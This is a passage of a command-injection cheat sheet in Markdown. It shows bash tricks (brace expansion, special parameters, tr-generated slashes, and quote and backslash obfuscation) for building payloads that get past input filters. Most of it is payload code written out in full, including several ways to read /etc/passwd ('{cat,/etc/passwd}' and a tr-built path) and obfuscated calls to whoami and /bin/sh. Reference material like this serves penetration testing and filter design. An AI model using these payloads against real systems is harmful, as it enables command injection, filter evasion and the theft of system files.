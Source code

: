 References:
- [Bash Reference Manual: 3.5.3 Shell Parameter Expansion](https://www.gnu.org/software/bash/manual/bash.html#Shell-Parameter-Expansion)
- [Bash scripting cheatsheet: Parameter expansions](https://devhints.io/bash#parameter-expansions)

## Brace expansion

Brace expansion is a mechanism by which arbitrary strings may be generated. Patterns to be brace expanded take the form of an optional preamble, followed by either a series of comma-separated strings or a sequence expression between a pair of braces, followed by an optional postscript. The preamble is prefixed to each string contained within the braces, and the postscript is then appended to each resulting string, expanding left to right. For instance:

```bash
$ echo a{d,c,b}e
ade ace abe
```

You can use brace expansion to create payloads:

```bash
$ {cat,/etc/passwd}
```

References:
- [Bash Reference Manual: 3.5.1 Brace Expansion](https://www.gnu.org/software/bash/manual/bash.html#Brace-Expansion)

## Special shell parameters

There are several parameters which the shell treats specially. Some of these parameters you can use to create payloads:

```bash
$ i$@d
# $0 expands to the name of the shell or shell script
$ bash -c 'echo id|$0'
```

References:
- [Bash Reference Manual: 3.4.2 Special Parameters](https://www.gnu.org/software/bash/manual/bash.html#Special-Parameters)

## Producing slash with tr

```bash
$ echo . | tr '!-0' '"-1'
$ tr '!-0' '"-1' <<< .
$ cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

## Tricks

```bash
# using single quotes in command names
$ w'h'o'am'i
# using double quotes in command names
$ w"h"o"am"i
# using backslashes and slahes in command names
$ w\ho\am\i
$ /\b\i\n/////s\h
```

# References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
